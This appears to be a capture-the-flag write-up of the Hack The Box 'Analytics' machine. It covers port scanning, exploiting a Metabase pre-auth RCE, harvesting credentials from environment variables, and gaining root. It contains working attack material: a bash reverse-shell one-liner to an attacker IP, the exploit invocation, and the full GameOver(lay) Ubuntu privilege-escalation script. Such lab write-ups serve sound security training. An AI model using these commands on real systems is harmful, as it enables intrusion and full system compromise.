 ```yaml
---
layout: post
author: H4
---
```


# discovery
## port scan
```bash
$ nmap -Pn 10.10.11.233    
Nmap scan report for 10.10.11.233
Host is up (0.029s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Target domain is called `analytical.htb`. After adding the domain to our `/etc/hosts` file we have a closer look at the website and see that there is a login link on the top right which leads to `data.analytical.htb`. Lets add this domain to the `/etc/hosts` file too.

![login](/images/htb_analytics_metabase.png)  
The software `Metabase` seems to be in use here.
# exploitation
Googling for exploits for `Metabase` reveals an RCE CVE where a PoC can be found on Github: `https://github.com/m3m0o/metabase-pre-auth-rce-poc.`  
  
To use this exploit we need the `setup-token` which can be found in the `/api/session/properties` resource.
```http
GET /api/session/properties HTTP/1.1
Host: data.analytical.htb
Accept: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: application/json
Referer: http://data.analytical.htb/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: metabase.DEVICE=964c404f-2737-4b9b-803c-328dab954e07
Connection: close

HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Tue, 31 Oct 2023 19:37:53 GMT
...
"setup-token":"249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
...
```

Now we can construct our attack.  
Start a listener on the attacker machine.
```bash
$ nc -lvp 443
listening on [any] 443 ...
```

Execute the attack
```bash
$ python3 main.py -u http://data.analytical.htb -t '249fa03d-fd94-4d5b-b94f-b4ebf3df681f' -c 'bash -i >& /dev/tcp/10.10.14.25/443 0>&1' 
```

Catch connection from target
```
$ nc -lvp 443
listening on [any] 443 ...
connect to [10.10.14.25] from analytical.htb [10.10.11.233] 33288
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
cecce825ebf5:/$ whoami
whoami
metabase
```

> We got a shell!
{: .prompt-info }

# post exploitation
## get `ssh` access
Executing `linpeas.sh` on the target reveals the system environment which leaks credentials.
```bash
cecce825ebf5:/tmp$ sh l.sh
sh l.sh
...
HISTFILESIZE=0                                                                                                                                                                                                                              
MB_LDAP_BIND_DN=
LANGUAGE=en_US:en
USER=metabase
HOSTNAME=cecce825ebf5
FC_LANG=en-US
SHLVL=5
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
HOME=/home/metabase
OLDPWD=/
MB_EMAIL_SMTP_PASSWORD=
LC_CTYPE=en_US.UTF-8
JAVA_VERSION=jdk-11.0.19+7
LOGNAME=metabase
_=/bin/sh
MB_DB_CONNECTION_URI=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_PASS=
MB_JETTY_HOST=0.0.0.0
META_PASS=An4lytics_ds20223#
LANG=en_US.UTF-8
MB_LDAP_PASSWORD=
HISTSIZE=0
SHELL=/bin/sh
MB_EMAIL_SMTP_USERNAME=
MB_DB_USER=
META_USER=metalytics
LC_ALL=en_US.UTF-8
JAVA_HOME=/opt/java/openjdk
PWD=/tmp
HISTFILE=/dev/null
MB_DB_FILE=//metabase.db/metabase.db
...
```

> Identified credentials: `metalytics:An4lytics_ds20223#`
{: .prompt-info }

## get user flag
```bash
metalytics@analytics:~$ ls
user.txt
metalytics@analytics:~$ cat user.txt 
8*****************************f
```

## privilege escalation
Reviewing `linpeas.sh` again shows that `Ubuntu 22.04.3 LTS` is the operating system.  
Googling gives us an privilege escalation exploit: `https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/tree/main`

Content of exploit file.
```bash
#!/bin/bash

# CVE-2023-2640 CVE-2023-3262: GameOver(lay) Ubuntu Privilege Escalation
# by g1vi https://github.com/g1vi
# October 2023

echo "[+] You should be root now"
echo "[+] Type 'exit' to finish and leave the house cleaned"

unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

Just upload this this script to the target and execute it to get `root` access.
```bash
metalytics@analytics:/tmp$ sh lpe.sh 
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@analytics:/
```

> We got `root`!
{: .prompt-info }

## get second flag
```bash
root@analytics:/tmp# cd /root
root@analytics:/root# ls
root.txt
root@analytics:/root# cat root.txt
9***************************6
```

Pwned! <@:-)
